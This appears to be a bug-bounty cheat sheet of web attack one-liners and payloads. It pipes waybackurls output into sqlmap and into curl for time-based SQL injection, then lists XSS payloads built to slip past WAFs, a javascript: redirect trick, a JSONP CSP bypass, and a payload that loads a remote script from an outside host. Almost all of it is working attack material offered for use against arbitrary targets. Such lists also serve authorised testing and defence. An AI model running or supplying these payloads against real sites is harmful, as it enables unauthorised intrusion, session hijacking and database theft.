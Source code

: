 waybackurls target | grep -E '\bhttps?://\S+?=\S+' | grep -E '\.php|\.asp' | sort -u | sed 's/\(=[^&]*\)/=/g' | tee urls.txt | sort -u -o urls.txt && cat urls.txt | xargs -I{} sqlmap --technique=T --batch -u "{}"
```
Time based + waybackurls
```
#waybackurls http://test.com | grep -E '\bhttps?://\S+?=\S+' | grep -E '\.php|\.asp' | sort -u | sed 's/\(=[^&]*\)/=/g' | tee urls.txt | sort -u -o urls.txt
#cat urls.txt | sed 's/=/=(CASE%20WHEN%20(888=888)%20THEN%20SLEEP(5)%20ELSE%20888%20END)/g' | xargs -I{} bash -c 'echo -e "\ntarget : {}\n" && time curl "'{}'"
```
# XSS
1-The new reportError() function enables a quite amusing XSS vector:
```
window.name='alert(1)'
reportError(name , enerror=eval)
```
2-If you see `returnTo=` in login url , add `javascript:alert(1)` and login > xss alert.<br>
3-Amazon CloudFront WAF sometimes can be easily bypassed with `<svg onload=(alert)(1)` instead of `<svg onload=alert(1)`<br>
4-Bypass Waf <br>
```
<details%0Aopen%0AonToGgle%0A=%0Aabc=(co\u006efirm);abc%28%60xss%60%26%2300000000000000000041//
<details x=xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx:2 open ontoggle=&#x0000000000061;lert&#x000000028;origin&#x000029;>
```
5-Bypass XSS WAF protection using a comment between a JS function name and parameters
```
<img/src/onerror=alert/*1337*/(1)>
<img/src/onerror=alert//&NewLine;(2)>
<img/src/onerror=alert&sol;**&sol;(3)>
```
<br>
6-Bypass XSS WAF protection using Whitespace Separators between a JS function name and parameters <br>

```
<img/src/onerror=alert&#xFEFF;(1337)>
```
![ ](https://raw.githubusercontent.com/rbih-boulanouar/bugbounty/main/Whitespace%20Separators.jpeg)

7-
The Best Simple #XSS Payload

`<Img Src=//X55.is OnLoad=import(src)>`

Reasons:

1. It loads a remote script 
2. It pops in SOURCE and DOM
3. It allows custom code in URL hash

8-waybackurls+ kxss
```
waybackurls target | grep -E '\bhttps?://\S+?=\S+' | grep -E '\.php|\.asp' | sort -u | sed 's/\(=[^&]*\)/=/g' | tee urls-xss.txt | sort -u -o urls-xss.txt && cat urls-xss.txt | kxss
```
9-CSP bypass
```
www.google.com/complete/search?client=chrome&q=1&jsonp=alert(1)//
```
10-bypass waf
```
alert?.(1)
```
```